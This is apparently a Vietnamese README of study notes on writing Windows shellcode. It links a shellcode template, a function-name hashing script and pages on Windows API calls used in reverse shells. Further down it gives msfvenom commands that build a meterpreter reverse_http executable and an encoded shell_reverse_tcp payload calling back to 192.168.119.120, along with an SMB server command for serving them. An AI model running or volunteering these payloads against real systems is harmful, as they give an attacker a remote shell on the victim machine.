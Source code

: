 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


Tạo meterpreter:
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f exe -v met.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f python –e x86/shikata_ga_nai -b "\x00..."

Cài pwntool
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools

- Setup smbserver trên kali:
sudo smbserver.py met /home/kali/ -smb2support
